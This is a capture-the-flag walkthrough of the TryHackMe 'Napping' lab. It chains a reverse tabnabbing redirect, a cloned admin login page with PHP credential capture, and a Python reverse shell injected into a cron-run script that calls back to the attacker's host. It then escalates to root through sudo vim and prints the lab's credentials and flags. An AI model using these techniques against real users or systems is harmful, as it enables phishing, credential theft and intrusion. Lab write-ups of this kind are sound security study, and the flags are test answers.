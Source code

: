 # Napping
[https://tryhackme.com/room/nappingis1337](https://tryhackme.com/room/nappingis1337)

Difficulty: Medium

## Enumeration
### Port Scan:
`sudo rustscan --range 1-65535 --ulimit 5000 -a $ip -- -sC -sV`

**Open ports:**
- 22: SSH - OpenSSH 8.2p1
- 80: Web Server - Apache httpd 2.4.41

### Directory & File Bruteforce
`gobuster dir -u http://$ip -t 100 -r -x php,txt,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Found Pages:**
admin [403]
admin/login.php
index.php
welcome.php
register.php
logout.php
config.php

## Phishing & Reverse Tab Nabbing
I created a normal user on the /register.php page and then logged in.

From here I can see that I'm able to submit a link to the page, and that an admin will review it.

After submitting a test link I can see that the link is displayed to the page and uses `target="_blank"` in an anchor tag. Since it uses this attribute I know that if the browser is old enough it's susceptible to tabnabbing (The room name is napping).

I search for this on [HackTricks](https://book.hacktricks.xyz/) and find a page on [reverse tab nabbing](https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing) which provides a PoC and some useful code that I can use to attack this room.

I created an index.html file on my machine with the following contents:
```html
<!DOCTYPE html>
<html lang="en">
<body>
	<script>
		if (window.opener) {
			window.opener.location = "http://<my vpn ip>/login.php";
		}
	</script>
</body>
</html>
```

and then cloned the /admin/login.php page and a login.php file along with some modifications (commented in below snippet)

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Login</title>
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">
    <style>
        body{ font: 14px sans-serif; }
        .wrapper{ width: 360px; padding: 20px; }
    </style>
</head>


# PHP Snippet to store captured credentials to 'pwn.txt' file
# Could also be done by capturing traffic with Wireshark and found using the following filter: 
# ip.src == {box_ip} && http.request.method==POST

<?php
    if (isset($_POST['username'])) {
        file_put_contents('pwn.txt', file_get_contents('php://input'));
    }
?>


<body>
    <div class="wrapper">
        <h2>Admin Login</h2>
        <p>Please fill in your credentials to login.</p>

        # Changed action from /admin/login.php to just login.php to reflect my local path structure.
        <form action="login.php" method="post">
            <div class="form-group">
                <label>Username</label>
                <input type="text" name="username" class="form-control " value="">
                <span class="invalid-feedback"></span>
            </div>    
            <div class="form-group">
                <label>Password</label>
                <input type="password" name="password" class="form-control ">
                <span class="invalid-feedback"></span>
            </div>
            <div class="form-group">
                <input type="submit" class="btn btn-primary" value="Login">
            </div>
            <br>
        </form>
    </div>
</body>
</html>
```

I started a PHP server on my local machine using `sudo php -S $(tun0-ip):80` and waited for the connection.

The admin clicks on my malicious link and then proceeds to login using the below credentials:
username=daniel&password=C@ughtm3napping123

## SSH
I reused the credentials from above to log into the server over SSH.

There is one other user on the machine called "adrian" who's home directory is accessible, but the user.txt flag file isn't readable.

There is however a file that is rw for the group administrators called query.py which is a group that we are a part of.

query.py
```py
from datetime import datetime
import requests

now = datetime.now()

r = requests.get('http://127.0.0.1/')
if r.status_code == 200:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Site is Up: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
else:
    f = open("site_status.txt","a")
    dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    f.write("Check Out Site: ")
    f.write(dt_string)
    f.write("\n")
    f.close()
```

site_status.txt is written to every minute (found by checking timestamps in the file) so I assume that this script is ran ever minute by another user.

Since this file is writable by our user however I can add a python reverse shell script to the file by adding the following snippet:

```py
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<my vpn ip>",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```

After adding this I start a netcat listener on my machine using `nc -lvnp 4242` and attempt to catch the reverse shell.

This gives me access to the user adrian on the server - so I stabilize my shell.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo && fg
export TERM=xterm
```
from here I view the contents of the file user.txt

User Flag: `THM{Wh@T_1S_Tab_NAbbiN6_&_PrinCIPl3_of_L3A$t_PriViL36E}`

## Privilege Escalation
`sudo -l` on the Adrian user show that I can use vim as root without providing a password so I use [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo) to find an exploit and I run the following command: `sudo vim -c ':!/bin/sh'` which escalates my to the root user.

I view the contents of the /root/root.txt file and find the final flag.

Root Flag: `THM{Adm1n$_jU$t_c@n'T_stAy_Aw@k3_T$k_tsk_tSK}`